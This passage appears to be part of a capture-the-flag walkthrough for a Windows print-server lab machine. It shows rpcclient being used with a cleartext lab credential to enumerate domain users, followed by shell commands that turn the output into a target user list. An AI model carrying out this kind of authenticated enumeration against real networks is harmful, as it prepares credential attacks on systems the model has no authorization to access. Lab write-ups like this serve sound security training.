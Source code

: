 {% highlight sh %}
rpcclient -U 'tlavel%ThanksF0rReading222' fuse
{% endhighlight %}


Rpcclient gives us more users. Let's grab these and keep them in a file. 


{% highlight sh %}
enumdomusers
{% endhighlight %}

{% highlight sh %}
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
{% endhighlight %}

{% highlight sh %}
cat tmp-users | awk -F'[][]' '{print $2}' | sed '/^$/d' | tee rpc-users
{% endhighlight %}

{% highlight sh %}
Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir
{% endhighlight %}

I removed Ghuest, krbtgt and DefaultAccount from the list.


Because we are on a print server, it worths to check the printers via rpcclient. 
